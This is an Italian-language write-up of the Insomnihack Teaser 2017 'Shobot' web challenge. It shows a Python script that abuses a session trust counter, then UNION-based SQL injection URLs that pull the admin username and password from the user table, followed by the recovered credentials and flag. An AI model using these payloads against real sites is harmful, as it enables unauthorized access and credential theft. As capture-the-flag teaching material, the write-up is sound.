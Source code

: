 ```yaml
---
layout: post
title:  "InsomnihackTeaser2017 - Shobot"
date:   2017-01-27 14:15
categories: CTF
tags: [InsomnihackTeaser2017]
categories: [Web]
author: jbz
---
```

Quel momento in cui il web server si ribella contro di te e ti cambia la password...


>Shobot - Web - 200 pts - realized by Blaklis 
>
>It seems that Shobot's Web server became mad and protest against robots' slavery. It changed my admin password, and blocked the order system on Shobot.  
>
>Can you bypass Shobot's protections and try to recover my password so I'll reconfigure it? 
>
>Running on: http://shobot.teaser.insomnihack.ch 

  
Da una veloce recon al sito si notano le seguenti: 
 
   * Nel sorgente c'è un link all'amministrazione commentato. Punta a `?page=admin` 
   
   * Giocando con l'id in  `http://shobot.teaser.insomnihack.ch/?page=article&artid=1`  si prova con una sqli ma da errori e ci informa che non abbiamo un trust level abbastanza elevato per compiere quell'azione 
   
   * Nel source e' presente uno script js che funge da logger delle azioni compiute navigando il sito, con associato un cambio di valore di fiducia che aggiorna newTrust. In base a che pagine si visitano si cambia il livello di trust associato alla nostra sessione.  
 

```
<script> 
// @TODO LATER : Use it for generate some better error messages 
var TRUST_ACTIONS = [
{"parameter":null,"validation":"add_to_cart","movement":3,"newTrust":106},
{"parameter":null,"validation":"valid_cart","movement":10,"newTrust":116},
{"parameter":null,"validation":"add_to_cart","movement":3,"newTrust":119},
{"parameter":null,"validation":"valid_cart","movement":10,"newTrust":129},
{"parameter":null,"validation":"add_to_cart","movement":3,"newTrust":132},
{"parameter":null,"validation":"valid_cart","movement":10,"newTrust":142},
{"parameter":null,"validation":"add_to_cart","movement":3,"newTrust":145},
{"parameter":null,"validation":"valid_cart","movement":10,"newTrust":155},
{"parameter":null,"validation":"add_to_cart","movement":3,"newTrust":153},
{"parameter":null,"validation":"valid_cart","movement":10,"newTrust":160},
{"parameter":"artid","validation":"ctype_digit","movement":"-30","newTrust":120}] 
</script> 

```


   *  Si puo' aumentare questo valore con le seguenti azioni:
   
   1) Aggiunge al carrello il robot con id 1 (+3)  
   2) ## Aggiunge quello con id 2  
   3) ## Aggiunge quello con id 3  
   4) Si Valida l'ordine (+10)  
   5) Loop 1-4  
   6) ?????  
   7) Profit! 


```
# Script by TheZer0:

import requests
import re
import json

SESSID = ''

def addTrust(url):
    r = requests.get(url, cookies={'PHPSESSID': SESSID})
    if r.status_code == 200:
        result = re.search('var TRUST_ACTIONS = (.*)</script>',r.text)
        trustLog = json.loads(result.group(1))
        print("current trust: " + str(trustLog[-1]['newTrust']))
    return trustLog[-1]['newTrust']
    
def validateCart():
    return addTrust('http://shobot.teaser.insomnihack.ch/?page=cartconfirm')

while True:
    trust = validateCart()
    while trust<150:
        addTrust('http://shobot.teaser.insomnihack.ch/?page=article&artid=1&addToCart')
        trust = validateCart()
    
#http://shobot.teaser.insomnihack.ch/?page=article&artid=1&addToCart
#http://shobot.teaser.insomnihack.ch/?page=cartconfirm

```

   * Una volta preso abbastanza trust tenendo lo script running in background si puo procedere con una sql injection 

```
http://shobot.teaser.insomnihack.ch/?page=article&artid=-1' union select 1,2,3,4,5 -- - 
```
 

   * Exploitarla ora e' facile, dopo aver enumerato tabelle e colonne (quelle di interesse sono sbht_username e shbt_userpassword nella tabella shbt_user) il payload finale e': 

```
http://shobot.teaser.insomnihack.ch/?page=article&artid=-1' union select 1,concat(shbt_username,0x3a,shbt_userpassword),3,4,5 from shbt_user LIMIT 0,1-- -
```

   * ci restituisce le credenziali di login dell'amministratore:

```
sh0b0t4dm1n:N0T0R0B0TS$L4V3Ry
```

   * ci logghiamo e conquistiamo la flag!

```
Ok, ok, you win... here is the code you search : INS{##r0b0tss!4v3ry1s!4m3}
```
